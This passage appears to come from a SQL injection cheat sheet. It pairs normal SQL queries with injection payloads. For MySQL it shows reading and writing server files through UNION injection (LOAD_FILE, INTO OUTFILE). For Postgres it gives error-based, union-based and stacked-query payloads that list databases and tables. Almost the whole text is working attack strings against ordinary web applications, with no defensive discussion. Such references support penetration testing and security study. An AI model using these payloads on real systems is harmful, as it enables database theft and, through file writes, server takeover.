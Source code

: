 #### Read Files:
Normal
```sql
SELECT LOAD_FILE('/path/to/file');
```
SQLi
```sql
' UNION SELECT LOAD_FILE('/path/to/file'), NULL --
```

#### Write Files:
Normal
```sql
SELECT * INTO OUTFILE '/path/to/file' FROM table_name;
```
SQLi
```sql
' UNION SELECT column_name FROM table_name INTO OUTFILE '/path/to/file' --
```

## Postgres

#### List databases
Normal
```sql
SELECT datname FROM pg_database;
```
Error based
```sql
' (SELECT CAST((SELECT datname FROM pg_database LIMIT 1 OFFSET 1) AS integer))--
```
Union Based
```sql
' UNION SELECT datname, NULL FROM pg_database --
```
Stacked Queries
```sql
; SELECT datname FROM pg_database; --
```


#### List Tables:
Normal
```sql
SELECT table_name FROM information_schema.tables WHERE table_schema = 'public';
```
Error based
```sql
' (SELECT CAST((SELECT table_name FROM information_schema.tables WHERE table_schema = 'public' LIMIT 1 OFFSET 1) AS integer))--
```
Union Based
```sql
' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema = 'public' --
```
Stacked Queries:
```sql
; SELECT table_name FROM information_schema.tables WHERE table_schema = 'public'; --
```
